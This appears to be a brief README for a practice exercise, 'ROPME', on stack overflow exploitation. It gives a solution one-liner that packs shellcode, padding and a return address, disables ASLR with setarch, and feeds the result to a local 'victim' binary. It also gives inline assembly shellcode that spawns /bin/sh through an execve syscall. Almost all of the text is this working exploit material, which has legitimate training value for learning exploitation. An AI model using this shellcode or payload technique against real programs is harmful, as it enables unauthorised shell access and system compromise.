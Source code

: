 ROPME
=====

Practice for making rop host

Solution
========

	$ a=`printf %016x 0x7fffffffe090 | tac -rs..`
	$ ( ( cat shellcode ; printf %080d 0 ; echo $a ) | xxd -r -p ; 	cat ) | setarch `arch` -R ./victim

Shellcode
=========

Sample shellcode for spawn /bin/sh shell

	int main() {
		asm("\
			needle0: jmp there\n\
			here:    pop %rdi\n\
			xor %rax, %rax\n\
			movb $0x3b, %al\n\
			xor %rsi, %rsi\n\
			xor %rdx, %rdx\n\
			syscall\n\
			there:   call here\n\
			.string \"/bin/sh\"\n\
			needle1: .octa 0xdeadbeef\n\
		");
	}
